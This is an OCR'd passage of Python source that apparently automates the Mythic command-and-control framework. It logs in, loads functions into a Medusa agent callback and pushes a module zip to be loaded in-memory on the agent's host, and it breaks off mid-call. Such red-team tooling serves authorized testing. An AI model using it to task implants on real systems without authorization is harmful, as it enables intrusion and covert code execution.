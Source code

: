 callback_id = sys.argv[1]

modules = { "dns": "dns.zip" }
script = "dns_lookup.py"

async def scripting():
    # auth to mythic
    mythic = mythic_rest.Mythic(
        username="USERNAME", 
        password="PASSWORD",
        server_ip="IP_ADDRESS", 
        server_port="7443", 
        ssl=True, 
        global_timeout=-1
    )
    await mythic.login()
    resp = await mythic.set_or_create_apitoken()

    print("\n-------------------------------")
    print("[*] Loading Medusa functions...")
    print("-------------------------------\n")
    # ensure the required Medusa functions are present
    functions = [ "load_module", "load_script" ]
    for function in functions:
        print("[*] Loading {} function".format(function))
        task = mythic_rest.Task(
            callback=callback_id, 
            command=mythic_rest.Command(cmd="load"), 
            params={"command":function}
        )

        # submit the task and wait until it's completed to load the next
        submit = await mythic.create_task(task, return_on="")
        
        if submit.status == "success":
            print("[+] Successfully loaded {} function.\n".format(function))


    print("\n-------------------------------")
    print("[*] Loading required modules...")
    print("-------------------------------\n")
    # read each module zip and submit load_module task
    for module in modules:
        print("[*] Loading {} module in-memory".format(module))
        fc = open(modules[module], "rb").read()

        task = mythic_rest.Task(
            callback=callback_id, 
            command=mythic_rest.Command(cmd="load_module"), 
            params={"module_name":module}, 
            files=[
                mythic_rest.TaskFile(
                    content=fc, 
                    filename=modules[module], 
                    param_name="file")
            ]
        )
